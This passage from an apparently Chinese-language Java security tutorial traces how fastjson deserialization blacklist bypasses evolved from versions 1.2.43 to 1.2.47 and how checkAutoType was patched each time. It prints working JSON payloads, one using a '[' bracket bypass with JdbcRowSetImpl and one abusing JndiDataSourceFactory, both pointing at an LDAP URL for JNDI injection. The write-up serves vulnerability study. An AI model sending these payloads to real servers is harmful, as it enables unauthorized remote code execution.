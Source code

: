 ### 4. fastjson-1.2.43

这个版本主要是修复上一个版本中双写绕过的问题。

> 影响版本：`1.2.25 <= fastjson <= 1.2.43`
> 描述：上有政策，下有对策。在 `L`、`;` 被进行了限制后，安全研究人员将目光转向了 `[`。

可以看到用来检查的 `checkAutoType` 代码添加了判断，如果类名连续出现了两个 `L` 将会抛出异常，

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616469807043.png)

这样使用 `L`、`;` 绕过黑名单的思路就被阻挡了，但是在 `loadClass` 的过程中，还针对 `[` 也进行了处理和递归，能不能利用 `[` 进行黑名单的绕过呢？

答案当然是可以的：

```json
{
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[,
	{"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

### 5. fastjson-1.2.44

这个版本主要是修复上一个版本中使用 `[` 绕过黑名单防护的问题。

> 影响版本：`1.2.25 <= fastjson <= 1.2.44`
> 描述：在此版本将 `[` 也进行修复了之后，由字符串处理导致的黑名单绕过也就告一段落了。

可以看到在 `checkAutoType` 中添加了新的判断，如果类名以 `[` 开始则直接抛出异常。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616475393707.png)


### 6. fastjson-1.2.45

在此版本爆出了一个黑名单绕过，实际上，黑名单是无穷无尽的，随着 fastjson 的版本更新，一定会有更多的黑名单爆出来，因为隔壁 jackson 都是明文黑名单的，只要隔壁一更新，大家都看到了，就会拿来看 fastjson。

> 影响版本：`1.2.25 <= fastjson <= 1.2.45`
> 描述：黑名单列表需要不断补充。

```json
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:23457/Command8"
    }
}
```

### 7. fastjson-1.2.47

在 fastjson 不断迭代到 1.2.47 时，爆出了最为严重的漏洞，可以在不开启 AutoTypeSupport 的情况下进行反序列化的利用。

> 影响版本：`1.2.25 <= fastjson <= 1.2.32  未开启 AutoTypeSupport `
> 影响版本：`1.2.33 <= fastjson <= 1.2.47`
> 描述：作者删除了一个 fastjson 的测试文件：`https://github.com/alibaba/fastjson/commit/be41b36a8d748067ba4debf12bf236388e500c66` ，里面包含了这次通杀漏洞的 payload。
